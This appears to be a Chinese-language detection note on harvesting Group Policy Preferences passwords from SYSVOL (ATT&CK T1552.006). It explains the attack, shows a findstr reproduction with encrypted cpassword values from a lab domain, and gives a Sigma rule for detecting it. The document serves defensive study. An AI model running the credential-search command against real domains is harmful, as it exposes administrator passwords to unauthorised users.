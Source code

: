 可以使用关键字搜索在SYSVOL文件夹中搜索这些XML文件。可以使用键值“ **cpassword** ” 搜索XML文件中的密码。

## 检测日志

Windows 安全日志

## 测试复现

组策略首选项允许管理员在Active Directory域中的服务器和工作站上创建和管理本地帐户。攻击者可以轻松找到并获取由组策略首选项管理的管理帐户凭据的加密密码，然后使用Microsoft发布的AES密钥对其进行解密。

以下是攻击的工作方式的摘要：

1. 攻击者利用PowerShell或PowerSploit的Get-GPPPassword命令等其他工具，在域控制器的SYSVOL共享上找到包含AES加密的本地帐户密码的组策略XML文件。
2. 攻击者结合Microsoft发布的AES密钥，对密码进行解密，以明文形式显示管理帐户密码。

由于SYSVOL共享对经过身份验证的用户开放，因此组织内的任何人都可以读取此处存储的文件。因此，任何用户帐户都可以查找和解密这些文件，并可以访问管理员帐户的纯文本密码。

```dos
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Windows\system32>findstr /S /I cpassword \\0day.org\sysvol\0day.org\policies\
*.xml
\\0day.org\sysvol\0day.org\policies\{0EA52652-3A0D-4135-8BD7-92EFF59CB765}\Machi
ne\Preferences\Groups\Groups.xml:<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D
24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="tester" image
="0" changed="2019-05-20 06:34:56" uid="{47664872-E0C4-4476-A963-9F34564042B1}">
<Properties action="C" fullName="" description="" cpassword="WzC8r0KH+edYsh0heQv
AVwcNxtSvX1efu9MU+z5e37E" changeLogon="0" noChange="0" neverExpires="1" acctDisa
bled="0" userName="tester"/></User>
\\0day.org\sysvol\0day.org\policies\{0EA52652-3A0D-4135-8BD7-92EFF59CB765}\Machi
ne\Preferences\Groups\Groups.xml:       <User clsid="{DF5F1855-51E5-4d24-8B1A-D9
BDE98BA1D1}" name="klionsec" image="0" changed="2019-05-20 06:35:29" uid="{FBA27
650-BF8A-4EA4-A308-91540384B7E2}"><Properties action="C" fullName="" description
="" cpassword="tlKQrm9IwkVCQX65tWY+KZ1iBu7tbjQ/2vCOFU3Kkiw" changeLogon="0" noCh
ange="0" neverExpires="1" acctDisabled="0" userName="klionsec"/></User>
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: 基于GPP凭证获取findstr查找sysvol内潜在的XML文件(发起攻击机)
description: windows server 2008 模拟测试结果
references: https://adsecurity.org/?p=2288
tags: T1552-006
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4688  # 进程创建
        NewProcessname: 'C:\Windows\System32\findstr.exe'
    selection2:
        EventID: 5156
        Direction: '出站'  #方向为出站
        DestinationPort: 445  #目标端口为445
```